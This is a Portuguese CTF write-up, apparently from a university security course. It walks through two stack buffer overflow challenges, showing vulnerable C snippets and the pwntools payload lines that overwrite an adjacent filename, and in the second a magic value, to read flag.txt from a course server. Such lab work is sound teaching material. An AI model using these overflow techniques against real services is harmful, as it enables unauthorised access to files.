 # CTF5 - Buffer Overflow

## Preparação

Antes de iniciar o desafio, fizemos os downloads necessários para facilitar a criação de exploits, simplificando por exemplo a interação com executáveis e serviços remotos a partir de um script python.

```
echo 'export PATH="$HOME/.local/bin:$PATH"' >> .bashrc
python3 -m pip install --upgrade pwntools
```


Também vamos instalar o pacote checksec para podermos analisar com que proteções é que o programa foi compilado:

```
sudo apt update
sudo apt install checksec
```

## Desafio 1



Após as instalações necessárias, podemos então executar o comando `checksec program` para ver que tipos de proteções tem:

![checksec1](Images/checksec1.png)

Como podemos ver, o programa tem arquitetura x86 (32bits), o binário não está randomizado, não existem canários nem proteção de execução ao nível da stack

Analisando agora o conteúdo do ficheiro main.c, podemos ver que existe uma alocação de 8 bytes para o nome do ficheiro e uma alocação de 32 bytes para o buffer.

```c
char meme_file[8] = "mem.txt\0";
char buffer[32];
```

Também confirmamos que a função scanf permite copiar até 40 bytes do stdin para o buffer que foi declarado anteriormente. Isso pode levar a uma situação de overflow de buffer quando a entrada excede 32 bytes.

```c
scanf("%40s", &buffer);
```
De acordo com o funcionamento da stack, a área de memória alocada é contínua e depende da ordem em que as variáveis são declaradas. Portanto, se ultrapassarmos a capacidade do buffer, acabamos sobrescrevendo a área de memória reservada para meme_file. Como as instruções seguintes no arquivo main.c mostram o conteúdo de meme_file, nosso objetivo é sobrescrever o nome do arquivo a ser lido para exibir o conteúdo de flag.txt.


No programa Python fornecido, na parte onde inserimos o conteúdo para o servidor, basta escrever 32 caracteres seguidos do nome do arquivo que queremos ler.

```py
r.sendline(b"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxflag.txt")
```

O que nos permitiu obter, executando o comando `python3 exploit-example.py`:

![python1](Images/python1.png)

## Desafio 2

Tal como no 1º, executamos o comando `checksec program`, onde as proteções são as mesmas que o program anterior :

![checksec2](Images/checksec2.png)


Após executar o `nc ctf-fsi.fe.up.pt 4000`:

![desafio2.png](Images/desafio2.png)

Apercebemo-nos que temos que cumprir uma condição if no código, que verifica se o val = 0xfefc2324. De resto , é semelhante ao desafio anterior.


```
if(*(int*)val == 0xfefc2324)
```

Logo vamos escrever a seguinte linha no ficheiro python, com 32 'x' + o val correto + ficheiro flag.txt:
```py
r.sendline(b"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx\x24\x23\xfc\xfeflag.txt")
```
Alterando o port de 4003 para 4000, executamos o ficheiro python e obtemos:

![flag2](Images/flag2.png)




